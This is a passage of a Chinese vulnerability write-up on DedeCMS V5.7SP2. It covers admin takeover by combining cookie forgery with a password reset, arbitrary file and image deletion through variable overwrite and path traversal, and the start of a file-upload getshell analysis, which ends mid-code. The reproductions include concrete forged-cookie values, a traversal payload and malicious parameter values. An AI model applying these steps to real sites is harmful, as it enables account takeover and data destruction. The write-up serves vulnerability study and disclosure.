这个漏洞产生需要同时利用到dedecms的cookie伪造任意前台用户登录漏洞和前台修改任意用户密码漏洞。之前的文章[dedecms前台修改任意用户密码漏洞分析](https://bbs.pediy.com/thread-224008.htm)中已经讲过了,虽然也没有设置密保问题，但是由于dedecms本身的功能即使修改密码也是无法登录的，即我们通过前台任意修改任意用户密码漏洞是能够修改前台管理员密码，但是我们却无法登录。而伪造任意前台用户登录漏洞使得我们能够登录到前台管理员的页面。结合两者，我们就能够在前台管理员页面通过修改密码，就能够修改后台管理员的密码，从而登录到后台。

### 漏洞分析
关于dedecms的管理员，我们有几点需要明确：
1. dedecms的管理员信息分别保存在2张表中，`dede_memeber`和`dede_admin`。`dede_admin`是保存是后台管理员的账户信息。其中`dede_memeber`中的`admin`保存的是前台管理员的信息，而`dede_admin`保存的是后台管理员的信息。
2. 前台无法通过`member/index.php`登录到`admin`的前台页面，dedecms在程序中已经禁止了前台登录`admin`账户。
3. 在前台管理员页面修改密码会同时影响到后台管理员密码的修改。

对个人信息的修改的后台逻辑处理代码位于`member/edit_baseinfo.php`:
```PHP
if ($dopost == 'save') {
    /*
    *   some other code
    */
    //如果是管理员，修改其后台密码
    if ($cfg_ml->fields['matt'] == 10 && $pwd2 != "") {
        $query2 = "UPDATE `#@__admin` SET pwd='$pwd2' where id='" . $cfg_ml->M_ID . "' ";
        $dsql->ExecuteNoneQuery($query2);
    }
    // 清除会员缓存
    $cfg_ml->DelCache($cfg_ml->M_ID);
    ShowMsg('成功更新你的基本资料！', 'edit_baseinfo.php', 0, 5000);
    exit();
}
```
主要看其中的102-103行处的代码，当前台账户是管理员时，会更新数据库中的`dede_admin`中的密码，这样就修改了后台管理员的密码了。这就意味着只要我们能够以管理员的身份登录到后台系统中，我们就能够重置后台管理员密码了。

### 漏洞复现
1. 注册一个用户名为001的账户

    

2. 退出注册的用户，我们在登录时选择忘记密码进行重置密码的操作，此步的具体操作可以参见[dedecms前台修改任意用户密码漏洞分析](https://bbs.pediy.com/thread-224008.htm)
    
    

3. 得到admin的重置密码链接为，`http://localhost/member/resetpassword.php?dopost=getpasswd&id=1&key=Gngri2i1`(每次访问均不一样，大家在复现时一实际情况为准)。访问此链接，重置管理员的密码为`123456`。
    
    

    从数据库中看到，前台管理员密码已经修改为`123456`。(e10adc3949ba59abbe56e057f20f883e是123456的md5)
    
        

    虽然我们重置密码成功了，但是前台是无法以管理员登录的。

4. 接下来我们利用cookie伪造登录到前台管理员中，我们用用户`001`登陆到会员中心。

    

    之后访问`memeber/index.php?uid=001`,得到：

    

    取出其中的`last_vid`中的值`001`,`last_vid__ckMd5`中的值为`c6fda866fabaca07`.

5. 修改Cookie中的`DedeUserID`为`001`,将`DedeUserID__ckMd5`修改为`last_vid__ckMd5`的值即`c6fda866fabaca07`，修改完毕之后访问重新访问`memeber/index.php`,已经变为了管理员。

    

6. 进入到`系统设置/基本资料`，修改密码。由于之前我们通过任意前台用户密码修改，已经将密码修改为`123456`，所以我们这里可以重置后台管理员密码为`123`。

    

    可以看到在数据库`dede_admin`，管理员的密码也已经发生了改变，变为了`962ac59075b964b07152`(123的md5中的16位)

7. 此时以密码`123`即可登录到后台。

### 总结
看似两个比较鸡肋的洞，也能够达到重置后台管理员密码从而登陆到后台系统中，确实是非常有趣。

[返回目录](#目录)

## 4. 前台任意文件删除漏洞
### 漏洞信息
- 漏洞公布时间:2018/01/18
- 影响版本：V5.7SP2正式版(2018-01-09)
- 修复时间：未定
- 漏洞条件：开启用户注册的功能、开启上传图集的功能

### 前言
此漏洞是由于在dedecms中的`album_add.php`在上传图集的地方存在变量覆盖的漏洞，可以覆盖掉上传图片的路径，在进行删除时可以可以按照此路径删除文件，从而形成了文件删除的漏洞。本漏洞1的关键是地方是变量初始化的地方存在问题，导致存在变量覆盖的问题。那么首先分析下dedecms中对变量的处理方法：
`include/common.inc.php`
```PHP
if (!defined('DEDEREQUEST'))
{
    //检查和注册外部提交的变量   (2011.8.10 修改登录时相关过滤)
    function CheckRequest(&$val) {
        //CheckRequest具体的函数实现，此处省略。
    }
    //var_dump($_REQUEST);exit;
    CheckRequest($_REQUEST);
	CheckRequest($_COOKIE);

    foreach(Array('_GET','_POST','_COOKIE') as $_request)
    {
        foreach($$_request as $_k => $_v)
		{
			if($_k == 'nvarname') ${$_k} = $_v;
			else ${$_k} = _RunMagicQuotes($_v);
		}
    }
}
```
所以如果一个PHP文件引入了`include/common.inc.php`之后，那么此PHP文件就可以访问`$_REQUEST`中所有的变量。通过调试，我们发现在`album_add.php`中引入了`common.inc.php`文件，这就意味着可以在整个`album_add.php`中访问所有的`$__REQUEST`的变量。



### 漏洞分析
#### 创建图集
dedecms中处理新建图片集的地方位于`member/album_add.php`中大约67-309行代码，我们取其与漏洞有关的代码：
```PHP
else if ($dopost == 'save') {

    include(DEDEMEMBER . '/inc/archives_check.php');
    // 省略中间代码
    if ($formhtml == 1) {
        $imagebody = stripslashes($imagebody);
        $imgurls .= GetCurContentAlbum($imagebody, $copysource, $litpicname);
        if ($ddisfirst == 1 && $litpic == '' && !empty($litpicname)) {
            $litpic = $litpicname;
            $hasone = true;
        }
    }
    // 省略中间代码
    $description = HtmlReplace($description, -1);//2011.06.30 增加html过滤 （by:织梦的鱼）
    //保存到主表
    $inQuery = "INSERT INTO `#@__archives`(id,typeid,sortrank,flag,ismake,channel,arcrank,click,money,title,shorttitle,
color,writer,source,litpic,pubdate,senddate,mid,description,keywords,mtype)
VALUES ('$arcID','$typeid','$sortrank','$flag','$ismake','$channelid','$arcrank','0','$money','$title','$shorttitle',
'$color','$writer','$source','$litpic','$pubdate','$senddate','$mid','$description','$keywords','$mtypesid'); ";
    if (!$dsql->ExecuteNoneQuery($inQuery)) {
        $gerr = $dsql->GetError();
        $dsql->ExecuteNoneQuery("DELETE FROM `#@__arctiny` WHERE id='$arcID' ");
        ShowMsg("把数据保存到数据库主表 `#@__archives` 时出错，请联系管理员。", "javascript:;");
        exit();
    }
}
```
整个漏洞其实就`$litpic`造成的。分析插入数据库的操作，我们看到最后是直接将`$litpic`变量的值直接插入至数据库中了，之后的文件删除也是直接从`dede_archives`中取`$litpic`进行删除。我们对`$litpic`的赋值过程进行分析：
1. 首先是引入了`include(DEDEMEMBER . '/inc/archives_check.php');`。在`member/inc/archives_check.php`中的101-102行处存在赋值代码：
    ```PHP
    //处理上传的缩略图
    $litpic = MemberUploads('litpic', '', $cfg_ml->M_ID, 'image', '', $cfg_ddimg_width, $cfg_ddimg_height, FALSE);
    if($litpic!='') SaveUploadInfo($title,$litpic,1);
    ```
    这一步导致`$litpic`不可控。
2. 94-103行代码：
    ```PHP
    if($formhtml==1)
    {
        $imagebody = stripslashes($imagebody);
        $imgurls .= GetCurContentAlbum($imagebody,$copysource,$litpicname);
        if($ddisfirst==1 && $litpic=='' && !empty($litpicname))
        {
            $litpic = $litpicname;
            $hasone = true;
        }
    }
    ```
    如果`$formhtml`为1，则进入函数内部。之后会执行`$litpic = $litpicname`，而我们如果控制了`$litpicname`就相当于控制了`$litpic`，这样就完成了在写入数据库时的写入任意文件路径的第一步。
3. `$dsql->ExecuteNoneQuery($inQuery)`插入数据库中。
    那么我们如何控制`$formhtml`和`$litpicname`呢？
    
    这个时候就需要利用到前面说的`include/common.inc.php`。由于`common.inc.php`的存在，导致`$_REQUEST`中的所有变量在当前文件都是可以访问的，这样为变量覆盖的漏洞提供了潜在的可控，刚好`$formhtml`和`$litpicname`没有进行初始化，那么这两个变量就是我们可控的。

#### 删除图集
删除图集的代码位于`member/archives_do.php`中的114-190行：
```PHP
else if($dopost=="delArc")
{
    // 代码省略
    //删除文档
    if($row['issystem']!=-1) $rs = DelArc($aid);
    else $rs = DelArcSg($aid);
    //  代码省略
}
```
根据`issystem`的值不同，就会进入不同的删除函数。由于默认数据库中的`issystem`是1，所以最终执行`DelArc()`函数。跟踪`DelArc()`函数进入`member/inc/inc_batchup.php:DelArc()`,主要的删除代码位于70行。
```PHP
$licp = $dsql->GetOne("SELECT litpic FROM `#@__archives` WHERE id = '$aid'");
if ($licp['litpic'] != "") {
    $litpic = DEDEROOT . $licp['litpic'];
    if (file_exists($litpic) && !is_dir($litpic)) {
        @unlink($litpic);
    }
}
```
直接从`dede__archives`中取值，然后判断此文件是否存在就直接进行了删除操作，没有对文件类型进行判断。

所以文件插入和文件删除的操作，我们就能够构造出任意文件删除的操作了。

### 漏洞复现
1. 进入会员中心/个人空间/系统模型内容/添加图集,(URL为`member/album_add.php?cid=2`)。需要多添加几个参数，设置`formhtml`为`1`,设置`litpicname`为需要删除的文件。在本例中为`/robots.txt`。如下所示：

    

    当成功运行之后，表`dede_archives`中就会多一条记录，其中得`litpic`已经变为了`/robots.txt`

    

2. 进入会员中心/个人空间/系统模型内容，查看刚才已经发布的图集，点击删除按钮，进行删除。
    
    

    查看web目录下的文件，`robots.txt`已经被删除了。

    


### 总结
这个漏洞的本质其实还是由于变量未很好地进行初始化，导致通过变量覆盖漏洞改变了程序本来的逻辑，可以在数据库中写入任意文件的地址。其次在进行文件删除时，仅仅只是判断文件是否存在没有对文件类型进行校验，理论上应该仅仅只能删除图片文件，还是过于相信了数据库中的数据。

总体来说还是一个不错的漏洞，利用了变量覆盖漏洞。这个漏洞同时也警告程序员不要过于相信从数据库中取出的数据。

[返回目录](#目录)

## 5. 任意图片删除漏洞
### 漏洞信息
- 漏洞公布时间: 2017年12月
- 影响版本: V5.7SP2正式版(2018-01-09)
- 修复时间: 未定
- 漏洞条件: 开启会员注册以及会员中心功能

### 前言
此处的任意图片删除漏洞是因为dedecms中一直存在的变量覆盖漏洞造成的，再加上部分变量为进行初始化，导致可以通过传参的方式进行赋值，导致目录穿越形成了任意图片删除的漏洞。

### 漏洞分析
前面说过了此漏洞很主要的一个原因是dedecms中的变量覆盖漏洞。在`include/common.inc.php`处存在代码：
```PHP
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
    foreach($$_request as $_k => $_v)
    {
        if($_k == 'nvarname') ${$_k} = $_v;
        else ${$_k} = _RunMagicQuotes($_v);
    }
}
```
这个是一个很典型的变量覆盖的问题了，就不作过多的分析和解读了。下面正式进入漏洞的分析。

此漏洞是出现在会员中心/系统设置/空间设置的地方，对应于后台的处理文件是`member/edit_space_info.php`,我们分析的代码主要是位于16行-39行。
```PHP
$oldspacelogo=(empty($oldspacelogo))? "" : $oldspacelogo;
$spacelogo=(empty($spacelogo))? "" : $spacelogo;
$pagesize=(empty($pagesize))? "" : $pagesize;
$sign=(empty($sign))? "" : $sign;
$spacenews =(empty($spacenews))? "" : $spacenews;
$spacename =(empty($spacename))? "" : $spacename;
$maxlength = $cfg_max_face * 1024;
$userdir = $cfg_user_dir.'/'.$cfg_ml->M_ID;
if(!preg_match('#^'.$userdir."#", $oldspacelogo))
{
    $oldspacelogo = '';
}
if(is_uploaded_file($spacelogo))
{
    if(@filesize($_FILES['spacelogo']['tmp_name']) > $maxlength)
    {
        ShowMsg("你上传的Logo文件超过了系统限制大小：{$cfg_max_face} K！", '-1');
        exit();
    }
    //删除旧图片（防止文件扩展名不同，如：原来的是gif，后来的是jpg）
    if(preg_match("#\.(jpg|gif|png)$#i", $oldspacelogo) && file_exists($cfg_basedir.$oldspacelogo))
    {
        @unlink($cfg_basedir.$oldspacelogo);
    }
// 后续代码省略
```
最后执行删除代码是`@unlink($cfg_basedir.$oldspacelogo);`，我们分析这两个变量的赋值情况。其中

`$cfg_basedir`在文件`include/common.inc.php`中已经定义了，`//站点根目录$cfg_basedir = preg_replace('#'.$cfg_cmspath.'\/include$#i', '', DEDEINC);`指向的是系统的根目录。

我们主要分析的还是`$oldspacelogo`的赋值情况。
1. `$oldspacelogo=(empty($oldspacelogo))? "" : $oldspacelogo;`，如果`$oldspacelogo`为空，则赋值为空。
2. `!preg_match('#^'.$userdir."#", $oldspacelogo)`,要求`$oldspacelogo`中包含`$userdir`目录。`$userdir`的生成方式,`$userdir = $cfg_user_dir.'/'.$cfg_ml->M_ID;`，即用户的个人目录，对应于本例中则是`/uploads/userup/2`，也就意味者我们必须在`$oldspacelogo`中包含`/uploads/userup/2`
3. `is_uploaded_file($spacelogo)`，判断是通过POST方式上传文件即可
4. `preg_match("#\.(jpg|gif|png)$#i", $oldspacelogo) && file_exists($cfg_basedir.$oldspacelogo)`，限制了文件后缀同时检查了文件是否存在。由于限制了文件后缀，所以这个漏洞就仅仅只是一个任意图片删除漏洞了。

### 漏洞复现
进入到`会员中心/系统设置/空间设置`页面，在`空间Logo上传`地方选择图片上传，使用burp修改`oldspacelogo`值为`/uploads/userup/2/../../../images/banner01.gif`(本例中演示的是删除dedecms中的images目录下的banner01.gif)。如下：



查看本地的`banner01.gif`发现已经成功地被删除。

### 总结
这种任意图片删除漏洞还是比较常见的。但是dedecms作为一个大站出现这种变量覆盖的问题、变量未赋值的问题就不应该了。

[返回目录](#目录)

## 6. 后台文件上传getshell漏洞
### 漏洞信息
- 漏洞公布时间:2018/01/18
- 影响版本：V5.7SP2正式版(2018-01-09)
- 修复时间：未定
- 漏洞条件：开启会员中心的功能，后台文件上传

### 漏洞说明
此处漏洞主要是发生了创建文件中的编辑器的文件上传的地方。由于对上传文件的后缀过滤方式不严，再加上校验的方法不正确，最终导致了能够上传php文件从而getshell。

### 漏洞分析
#### 全局图片过滤函数
在分析这个漏洞之前，我们先看一下dedecms全局对上传文件的过滤方法，对文件的过滤主要是位于`include/uploadsafe.inc.php`中。代码如下：
```PHP
$cfg_not_allowall = "php|pl|cgi|asp|aspx|jsp|php3|shtm|shtml";
$keyarr = array('name', 'type', 'tmp_name', 'size');
if ($GLOBALS['cfg_html_editor']=='ckeditor' && isset($_FILES['upload']))
{
    $_FILES['imgfile'] = $_FILES['upload'];
    $CKUpload = TRUE;
    unset($_FILES['upload']);
}
foreach($_FILES as $_key=>$_value)
{
    foreach($keyarr as $k)
    {
        if(!isset($_FILES[$_key][$k]))
        {
            exit('Request Error!');
        }
    }
    if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
    {
        exit('Request var not allow for uploadsafe!');
    }
    $$_key = $_FILES[$_key]['tmp_name'];
    ${$_key.'_name'} = $_FILES[$_key]['name'];
    ${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
    ${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
    if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
    {
        if(!defined('DEDEADMIN'))
        {
            exit('Not Admin Upload filetype not allow !');
        }
    }
    if(empty(${$_key.'_size'}))
    {
        ${$_key.'_size'} = @filesize($$_key);
    }
    
    $imtypes = array
    (
        "image/pjpeg", "image/jpeg", "image/gif", "image/png", 
        "image/xpng", "image/wbmp", "image/bmp"
    );

    if(in_array(strtolower(trim(${$_key.'_type'})), $imtypes))
    {
        $image_dd = @getimagesize($$_key);
        if (!is_array($image_dd))
        {
            exit('Upload filetype not allow !');
        }
    }
}
```
我们只看与本次漏洞有关的代码，具体为`(preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'})`，其中`$cfg_not_allowall = "php|pl|cgi|asp|aspx|jsp|php3|shtm|shtml";`。所以我们是无法上传`php`相关的文件。

**所以如果我们上传的是`xxx.jpg.php`就会被拦截，但是如果上传的文件后缀是`xxx.jpg.ph%p`是没有问题的，但是这种方式显然是无法写入shell的。**

#### 漏洞分析
编辑器的文件上传的后台处理文件是`include/dialog/select_images_post.php`，其中的关键处理逻辑如下：
```PHP
// 身份校验
